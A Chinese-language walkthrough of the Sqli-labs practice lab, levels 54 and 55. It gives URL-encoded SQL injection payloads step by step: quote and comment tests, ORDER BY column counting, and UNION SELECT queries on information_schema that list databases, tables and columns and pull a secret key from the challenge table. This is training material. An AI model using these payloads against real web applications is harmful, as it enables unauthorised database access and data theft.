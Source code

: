 
# Sqli-labs-Less-54
![](https://img-blog.csdnimg.cn/20200728085406284.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=NSCR1&originHeight=481&originWidth=1113&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**从这一关开始就接近真实的环境<br />在这一关中对输入的次数做了限制，必须在10次以内获取到数据，否则就会刷新数据。**

**判断注入点**<br />http://www.web.com/sql/Less-54/?id=1'<br />错误，没有错误回显<br />![](https://img-blog.csdnimg.cn/2020072808584188.png#crop=0&crop=0&crop=1&crop=1&id=FWU6n&originHeight=115&originWidth=430&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释，成功说明存在注入点**<br />http://www.web.com/sql/Less-54/?id=1'--+<br />![](https://img-blog.csdnimg.cn/20200728085919126.png#crop=0&crop=0&crop=1&crop=1&id=aW03c&originHeight=187&originWidth=302&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-54/?id=1' order by 3--+<br />为4是返回错误，为3时返回正确，说明为3列<br />![](https://img-blog.csdnimg.cn/20200728090008179.png#crop=0&crop=0&crop=1&crop=1&id=KA7i5&originHeight=169&originWidth=289&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询当前库和所有数据库**<br />http://www.web.com/sql/Less-54/?id=-1' union select 1,database(),group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200728090334882.png#crop=0&crop=0&crop=1&crop=1&id=wlApS&originHeight=85&originWidth=831&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询所有表（challenges）**<br />http://www.web.com/sql/Less-54/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+<br />![](https://img-blog.csdnimg.cn/20200728090534396.png#crop=0&crop=0&crop=1&crop=1&id=PjIzV&originHeight=68&originWidth=266&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询表中字段**<br />http://www.web.com/sql/Less-54/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='bv18m6rwxy'--+<br />![](https://img-blog.csdnimg.cn/20200728090637815.png#crop=0&crop=0&crop=1&crop=1&id=QIGSY&originHeight=80&originWidth=371&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询账户和密码**<br />http://www.web.com/sql/Less-54/?id=-1' union select 1,2,group_concat(concat_ws('~',sessid,secret_Y0YL)) from challenges.bv18m6rwxy--+<br />![](https://img-blog.csdnimg.cn/20200728091003909.png#crop=0&crop=0&crop=1&crop=1&id=AL4FN&originHeight=115&originWidth=679&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
将得到的密码输入到下面的方框中进行验证<br />![](https://img-blog.csdnimg.cn/20200728091057613.png#crop=0&crop=0&crop=1&crop=1&id=vAezT&originHeight=50&originWidth=432&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
登录，显示成功<br />![](https://img-blog.csdnimg.cn/20200728091239155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wBW3W&originHeight=205&originWidth=934&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-55
![](https://img-blog.csdnimg.cn/20200728091640570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=mTNe1&originHeight=377&originWidth=1118&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

本关对输入次数的限制为14次

**查找注入点**<br />http://www.web.com/sql/Less-55/?id=1'<br />错误<br />**进行注释还是错误，更改为"也不对**<br />http://www.web.com/sql/Less-55/?id=1)--+<br />**成功**<br />![](https://img-blog.csdnimg.cn/20200728092126180.png#crop=0&crop=0&crop=1&crop=1&id=Igmdo&originHeight=137&originWidth=351&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
